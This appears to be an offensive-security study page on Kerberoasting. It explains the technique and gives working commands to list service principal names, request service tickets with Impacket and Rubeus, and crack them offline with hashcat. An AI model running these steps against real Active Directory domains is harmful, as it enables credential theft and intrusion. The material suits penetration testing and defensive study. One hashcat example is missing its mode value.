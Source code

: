# Kerberoasting (TGS-REP roasting)

{% embed url="https://www.techcrafters.com/portal/en/kb/articles/how-to-list-all-spns-in-a-domain-using-powershell#2__Querying_SPNs" %}

{% embed url="https://www.ibm.com/think/topics/kerberoasting" %}

{% embed url="https://learn.microsoft.com/en-us/powershell/module/activedirectory/get-adserviceaccount?view=windowsserver2025-ps" %}

### What is Kerberoasting?

Kerberoasting (also known as **TGS-REP roasting**) relies on the fact that a Ticket Granting Service (TGS) created for a service will be encrypted with a hash derived from the password of the associated service account. This allows an attacker to perform a dictionary attack to potentially crack the passwords of service accounts linked to services defined by the Service Principal Names (SPNs).

**TGS-REP** refers to the **Kerberos ticket-granting service (TGS) response** message, where the KDC validates the TGT, and if valid, responds with a service ticket (TGS) encrypted with the target service account's key.

### (1) Retrieve a list of SPNs in the network

1. `Get-ADServiceAccount` cmdlet

{% code overflow="wrap" %}
```powershell
PS> Get-ADServiceAccount -Filter 'ServicePrincipalNames -like "*"' | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}

2. Impacket-scripts: **GetUserSPNs**

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET>
```
{% endcode %}

* `<TARGET>:` The domain user account to authenticate to the KDC with
  * By default, all domain users can read the `servicePrinicpalName` attribute (required by the script)
  * Thus, as long as a valid user account is provided, it will not affect the results of the script

### (2) Retrieve the TGS for the SPNs we have found

1. &#x20;`impacket-GetUserSPNs` with the `-request-user` flag

{% code overflow="wrap" %}
```sh
$ impacket-GetUserSPNs -dc-ip <DOMAIN_CONTROLLER> <TARGET> -request-user <SERVICE_USER> 
```
{% endcode %}

* `-request-user:` Requests TGS for the SPN associated to the user specified (just the username, no domain needed)

2. `Rubeus.exe`

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast /spn:<SPN> /ticket:<EXISTING_TGT> 
C:\> Rubeus.exe kerberoast /user:<USERNAME> /ticket:EXISTING_TGT 
```
{% endcode %}

* `/ticket:` Specifies the TGT to use when requesting the service tickets
* `/spn:` Roasts just the specified SPN
* `/user:` Roasts just the specified user

**Other useful flags**

a. `/outfile:FILE:` outputs roasted hashes to the specified file, one per line

b. `/simple:` roasted hashes will be output to the console, one per line

**Combined command**

Or, we can directly enumerate the SPNs and request for the associated TGS all in one command:

{% code overflow="wrap" %}
```powershell
C:\> Rubeus.exe kerberoast
```
{% endcode %}

### (3) Perform dictionary attack on the obtained TGS

```sh
$ hashcat -a 0 -m <hash_mode> <path_to_spn_hash> <wordlist>
# eg. 
$ echo xxx > spn.hash 
$ hashcat -a -m <hash_mode> spn.hash /usr/share/wordlist/rockyou.txt
```

* `-a`: Attack mode&#x20;
  * `-a 0`: Dictionary attack&#x20;
* `-m` : Hash mode&#x20;
  * `-m 13100`: either one of **13100, 19600, 19700** (depending on the encryption type of the hashes obtained)

